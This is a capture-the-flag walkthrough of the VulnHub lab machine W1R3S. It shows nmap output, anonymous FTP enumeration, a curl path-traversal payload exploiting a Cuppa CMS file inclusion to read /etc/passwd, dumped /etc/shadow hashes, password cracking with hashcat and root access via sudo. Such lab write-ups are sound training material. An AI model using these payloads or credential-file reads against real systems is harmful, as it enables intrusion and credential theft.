```yaml
---
layout: post
title: W1R3S
date: 2020-07-06
author: th3-3inst3in
comments: true
categories: vulnhub
tags: [ctf,vulnhub]
---
```


## Recon

After configuring the W1R3S: 1.0.1 and getting its ip through  nmap. I quicky ran a nmap scan 

#### Nmap results

```perl

PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x    2 ftp      ftp          4096 Jan 23  2018 content
| drwxr-xr-x    2 ftp      ftp          4096 Jan 23  2018 docs
|_drwxr-xr-x    2 ftp      ftp          4096 Jan 28  2018 new-employees
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.174.129
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 07:e3:5a:5c:c8:18:65:b0:5f:6e:f7:75:c7:7e:11:e0 (RSA)
|   256 03:ab:9a:ed:0c:9b:32:26:44:13:ad:b0:b0:96:c3:1e (ECDSA)
|_  256 3d:6d:d2:4b:46:e8:c9:a3:49:e0:93:56:22:2e:e3:54 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3306/tcp open  mysql   MySQL (unauthorized)
Service Info: Host: W1R3S.inc; OS: Linux; CPE: cpe:/o:linux:linux_kernel

````

#### Enumeration

**FTP**

I originally started off with the ftp anonymous login and found 3 folders one contained usernames the rest were just trolls e.g one of the files contained the following test 

```bash
New FTP Server For W1R3S.inc
#
#
#
#
#
#
#
#
01ec2d8fc11c493b25029fb1f47f39ce
#
#
#
#
#
#
#
#
#
#
#
#
#
SXQgaXMgZWFzeSwgYnV0IG5vdCB0aGF0IGVhc3kuLg==

```
I decoded the base64 string and decoded to `It is easy, but not that easy..`

**Web**

Next I went on to enumerate the web apps since that seemed to be the most likely way of getting in the server.

I found out that its running Cuppa CMS. I did a quick google search and found this exploit 
https://www.exploit-db.com/exploits/25971

Though this did not work the file did load up but nothing came up on the page. 

I downloaded the source code of the app from https://github.com/CuppaCMS/CuppaCMS and started to dig in myself to verify if the vuln listed on exploit-db exited. 

from the exploit on exploit-db the problem was in `/alerts/alertConfigField.php (LINE: 22)`

![exploit db image]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/w1r3s/exploitdb.png)

I did a quick grep on the mentioned page but nothing came up


![grep nothing found]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/w1r3s/grep1.png)

Then I begain to analyze the code further and I saw the following

![grep found]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/w1r3s/grep2.png)

and finally using this information I was able to exploit the LFI

```bash

curl -X POST --data "urlConfig=../../../../../../../../../etc/passwd" http://192.168.174.140/administrator/alerts/alertConfigField.php
```
![lfi]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/w1r3s/lfi.png)


#### Exploitation

I was able to read the /etc/shadow file 

```bash
w1r3s:$6$xe/eyoTx$gttdIYrxrstpJP97hWqttvc5cGzDNyMb0vSuppux4f2CcBv3FwOt2P1GFLjZdNqjwRuP3eUjkgb/io7x9q1iP.:17567:0:99999:7:::
www-data:$6$8JMxE7l0$yQ16jM..ZsFxpoGue8/0LBUnTas23zaOqg2Da47vmykGTANfutzM8MuFidtb0..Zk.TUKDoDAVRCoXiZAH.Ud1:17560:0:99999:7:::
root:$6$vYcecPCy$JNbK.hr7HU72ifLxmjpIP9kTcx./ak2MM3lBs.Ouiu0mENav72TfQIs8h1jPm2rwRFqd87HDC0pi7gn9t7VgZ0:17554:0:99999:7:::

```

used `hashcat` and rockyou.txt to crack the passwords


![hashcat]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/w1r3s/hashcat.png)

and logged in with user `w1r3s`

![ssh]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/w1r3s/ssh.png)


#### Priv Esec

I just simply ran `sudo su` and entered the password computer and voila! got root

![root]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/w1r3s/root.png)
